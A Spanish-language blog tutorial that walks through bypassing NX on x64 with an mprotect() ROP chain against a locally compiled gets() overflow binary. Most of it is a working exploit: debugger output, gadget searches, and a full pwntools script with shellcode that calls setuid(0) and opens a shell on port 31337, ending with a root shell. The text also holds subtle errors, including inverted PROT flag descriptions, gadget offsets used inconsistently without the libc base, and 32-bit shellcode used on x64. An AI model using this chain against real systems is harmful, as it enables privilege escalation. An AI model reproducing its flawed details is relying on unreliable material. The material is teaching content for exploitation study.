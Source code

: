 ```yaml
---
layout: post
title: Bypass NX usando mprotect() en x64
author: c4rta
date: 2023-02-26
categories: [Explotacion binaria]
tags: [ROP]
cover: /imgs/heap2/waifu3.jpg
---
```

En ocasiones se nos presenta la situacion donde tenemos el NX activado y tenemos que recurrir a tecnicas como ```ret2libc```, ```ret2reg```, mas que nada tecnicas que usen ```ROP```. Asi que ahora te voy a mostrar como usar ```mprotect()``` para volver a marcar el stack como ejecutable y puedas inyectar una shellcode.

## mprotect()

Segun la man page de Linux ```mprotect``` es:

mprotect () cambia las protecciones de acceso para las páginas de memoria del proceso de llamada que contienen cualquier parte del rango de direcciones en el intervalo [addr, addr+len-1]. addr debe estar alineado con el límite de la página... En caso de éxito, mprotect () devuelve cero. En caso de error, esta llamada al sistema devuelve -1 y errno para indicar el error. se establece.

Y aca mas entendible seria que mprotect es la funcion que establece los permisos de lectura y escritura a cierta area de memoria. Esta funcion toma 3 argumentos:

- Una direccion inicial
- La longitud, que seria el rango en que podemos modificar
- Y una combinacion de banderas que son las que haran que se establezcan los permisos, estas banderas son:
    - **PROT_READ**: La memoria no se puede leer
    - **PROT_WRITE**: La memoria no se puede modificar/escribir
    - **PROT_EXEC**: La memoria no se puede ejecutar o no es ejecutable


## Crafteando el exploit

### Codigo vulnerable

```c
#include <stdio.h>

int main(int argc, char **argv){

    char input[256];
    gets(input);

    printf("%s", input);
    printf("\n");
    return 0;
}
```
No hace falta hacer reversing por que la vulnerabilidad se encuentra en la funcion ```gets```

Como estamos en 64 bits los primero 6 argumentos se pasan los registros RDI, RSI, RDX, RCX, R8 y R9, y cualquier cosa despues se empieza a pasar por el stack.

En x64 para poder hacer esta tecnica ocupados de:

- La direccion base de libc
- Un gadget **pop rdi**; ret: este funcionara para poner la direccion de la pila en rdi
- Un gadget **pop rsi**; ret: esta funcionara para poner la longitud en rsi
- Un gadget **pop rdx**; ret,: este funcionara para establecer el valor 0x7 en rdx, este valor es el de los permisos de lectura, escritura y ejecucion.

Algo asi se llamaria a la funcion mprotect:

```c
#incluye <sys/mman.h> 

       int mprotect(void * addr, size_t len, int prot);
                            |            |        |
                            |            |        |
                           RDI          RSI      RDX
```

### Sacando la direccion de libc

Dentro del debugger podemos ingresar el comando ```vmmap libc```, obviamente antes hay que ejecutar el binario. Podemos ver la direccion base de libc:

```
gef➤  vmmap libc
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x007ffff7db6000 0x007ffff7dd8000 0x00000000000000 r-- /usr/lib/libc.so.6
0x007ffff7dd8000 0x007ffff7f32000 0x00000000022000 r-x /usr/lib/libc.so.6
0x007ffff7f32000 0x007ffff7f8a000 0x0000000017c000 r-- /usr/lib/libc.so.6
0x007ffff7f8a000 0x007ffff7f8e000 0x000000001d4000 r-- /usr/lib/libc.so.6
0x007ffff7f8e000 0x007ffff7f90000 0x000000001d8000 rw- /usr/lib/libc.so.6
gef➤ 
```
La direccion que usare es ```0x007ffff7db6000```

### Offset del RIP

Como estamos en x64 podemos hacer uso del offset del RSP o del RBP y sumarle 8.

Como estoy usando GEF, ingresare el comando ```pattern create 300```, para generar 300 caracteres que le pasaremos como input. Una vez que el programa pete ingresare ```pattern offset $rbp``` para pasar el offset del RBP:

```
gef➤  pattern offset $rbp
[+] Searching for '$rbp'
[+] Found at offset 256 (little-endian search) likely
```
Ahora le sumamos 8 y nos da 264 que seria el desplazamiento para llegar al RIP.

Hace rato les mencione que mprotect recibia un argumento que es la longitud, debido a que la cadena que le metimos esta desde la direccion ```0x007fffffffe418```, podemos usar una direccion anterior lo suficientemente grande. Regularmente la longitud que se le pasa a mprotect en estos casos es ```0x1000```, la cual podra ser desde la direccion ```0x7ffffffffe000```

```
0x007fffffffe418│+0x0000: "iaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa"	 ← aca estan
0x007fffffffe420│+0x0008: "jaaaaaabkaaaaaablaaaaaabmaaa"
0x007fffffffe428│+0x0010: "kaaaaaablaaaaaabmaaa"
0x007fffffffe430│+0x0018: "laaaaaabmaaa"
0x007fffffffe438│+0x0020: 0x007f006161616d ("maaa"?)
0x007fffffffe440│+0x0028: 0x007fffffffe528  →  0x007fffffffe89f  →  "/home/c4rta/Downloads/mprotect"
0x007fffffffe448│+0x0030: 0xc91dfa2faf99b844
0x007fffffffe450│+0x0038: 0x0000000000000000
────────────────────────────────────────────
```

Hasta ahora nuestro exploit va asi:

```py
from pwn import *

p = process("./mprotect")

shellcode = b"\x31\xc0\x31\xdb\xb0\x17\xcd\x80\x31\xdb\xf7"
shellcode+= b"\xe3\xb0\x66\x53\x43\x53\x43\x53\x89\xe1\x4b"
shellcode+= b"\xcd\x80\x89\xc7\x52\x66\x68\x7a\x69\x43\x66"
shellcode+= b"\x53\x89\xe1\xb0\x10\x50\x51\x57\x89\xe1\xb0"
shellcode+= b"\x66\xcd\x80\xb0\x66\xb3\x04\xcd\x80\x50\x50"
shellcode+= b"\x57\x89\xe1\x43\xb0\x66\xcd\x80\x89\xd9\x89"
shellcode+= b"\xc3\xb0\x3f\x49\xcd\x80\x41\xe2\xf8\x51\x68"
shellcode+= b"n/sh\x68//bi\x89\xe3\x51\x53\x89\xe1\xb0\x0b"
shellcode+= b"\xcd\x80"

libc_base = 0x007ffff7db6000
rip_offset = 264
stack_addr = 0x7ffffffffe000
size = 0x1000
```

### Direccion de mprotect

Dentro de gdb podemos usar ```p mprotect``` y nos da esto:

```
gef➤  p mprotect
$1 = {<text variable, no debug info>} 0x7ffff7eb62f0 <mprotect>
```

### Direcciones de los gadgets

En mi caso usare ROPGadget pero puden usar ropper o radare2, aqui les puedo decir que no me arrojo ningun gadget, eso no es problema cuando se nos proporciona la libreria que esta usando, en este caso como lo compile en mi maquina, uso la libreria que se encuentra en ```/usr/lib/libc.so.6```, asi que esa la podemos usar para sacar los gadgets con el comando:

``` ROPgadget --binary /usr/lib/libc.so.6 | grep "pop rdi"```: 0x0000000000023d35

``` ROPgadget --binary /usr/lib/libc.so.6 | grep "pop rsi"```: 0x0000000000025641

``` ROPgadget --binary /usr/lib/libc.so.6 | grep "pop rdx"```: 0x000000000004e062


### Ejecutando el exploit final

Despues de agregar lo que le falta tenemos este exploit:

```py
from pwn import *

p = process("./mprotect")

shellcode = b"\x31\xc0\x31\xdb\xb0\x17\xcd\x80\x31\xdb\xf7"
shellcode+= b"\xe3\xb0\x66\x53\x43\x53\x43\x53\x89\xe1\x4b"
shellcode+= b"\xcd\x80\x89\xc7\x52\x66\x68\x7a\x69\x43\x66"
shellcode+= b"\x53\x89\xe1\xb0\x10\x50\x51\x57\x89\xe1\xb0"
shellcode+= b"\x66\xcd\x80\xb0\x66\xb3\x04\xcd\x80\x50\x50"
shellcode+= b"\x57\x89\xe1\x43\xb0\x66\xcd\x80\x89\xd9\x89"
shellcode+= b"\xc3\xb0\x3f\x49\xcd\x80\x41\xe2\xf8\x51\x68"
shellcode+= b"n/sh\x68//bi\x89\xe3\x51\x53\x89\xe1\xb0\x0b"
shellcode+= b"\xcd\x80"

libc_base = 0x007ffff7db6000
rip_offset = 264
stack_addr = 0x7ffffffffe000
size = 0x1000
mprotect_addr = 0x7ffff7eb62f0
pop_rdi = 0x0000000000023d35
pop_rsi = 0x0000000000025641
pop_rdx = 0x000000000004e062

payload = b"\x90" * 264
payload += p64(pop_rdi)
payload += p64(stack_addr)
payload += p64(pop_rsi)
payload += p64(size)
payload += p64(0xAAAAAAAAAAAAAAAA) #junk para r15
payload += p64(libc_base + pop_rdx)
payload += p64(0x7)
payload += p64(mprotect_addr)
payload += p64(0x007fffffffe418) #direccion desde donde comenzara la shellcode
payload += shellcode

p.sendline(payload)
p.readline()
p.interactive()
```
**Ojo:** Antes de ejecutarlo hay que ponernos en escucha por el puerto 31337, ya que la shellcode ejecuta un ```setuid(0)``` y establece una conexion con nosotros mismos por ese puerto


```
󰣇  c4rta ~/Downloads  nc 192.168.1.76 31337 -v
Connection to 192.168.1.76 31337 port [tcp/*] succeeded!
whoami
root
```

Y asi conseguimos ser root, muchas gracias por leer ❤
